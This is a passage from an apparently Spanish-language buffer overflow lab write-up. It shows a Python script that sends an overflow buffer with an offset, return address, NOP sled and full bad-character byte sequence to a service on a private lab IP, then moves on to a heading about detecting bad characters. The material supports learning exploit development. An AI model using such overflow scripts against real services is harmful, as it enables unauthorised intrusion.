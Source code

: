 Agregamos a nuestro script `buffbadCharacter.py`

```python
#/usr/bin/python3
import socket
from struct import pack
ip = "192.168.98.24"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90"*16

payload=("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```

#### Detección de badchars


![20231115015157.png](20231115015157.png)
